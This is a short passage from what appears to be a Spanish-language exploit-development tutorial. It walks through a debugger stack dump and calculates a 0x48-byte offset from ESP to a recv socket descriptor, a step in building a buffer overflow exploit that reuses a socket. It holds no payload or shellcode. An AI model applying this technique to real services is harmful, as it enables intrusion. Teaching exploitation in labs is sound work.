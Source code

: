 ```
0270FF70  00000000  
```


```
0270FF64 - 0270FF1C = 00000048

0x48 = 72 bytes
```

en este caso nos quedaremos con el valor ***0x48***, este valor de 48 es lo que debemos de sumar desde el ESP a nuestro descriptor de recv 


```
0270FF1C  000AB8EB  --> Suma desde aqui (ESP)-------------------
0270FF20  00B14000  "Vickry Alfiansyah\n"                       |
0270FF24  00000050                                               
0270FF28  00000000                                              |
0270FF2C  00000000                                              
0270FF30  00000000                                              |
0270FF34  72334B00  
0270FF38  40406A34                                              |
0270FF3C  6A344D6E                                                       
0270FF40  68417040                                              |-------> 0x48
0270FF44  6C615421  
0270FF48  6E616966                                              |
0270FF4C  68617973  
0270FF50  00000012                                              |
0270FF54  00B14000  "Vickry Alfiansyah\n"
0270FF58  00B13F98                                              |
0270FF5C  00000001                                              
0270FF60  0000001D                                              |
0270FF64  00000348  ----->Para llegar aqui (descriptor recv)--- 
0270FF68  00B13B20  
0270FF6C  00000000  
0270FF70  00000000  
```

La instrucción para hacer esta operatoria seria la siguiente 

![paste](./images/95.jpeg)
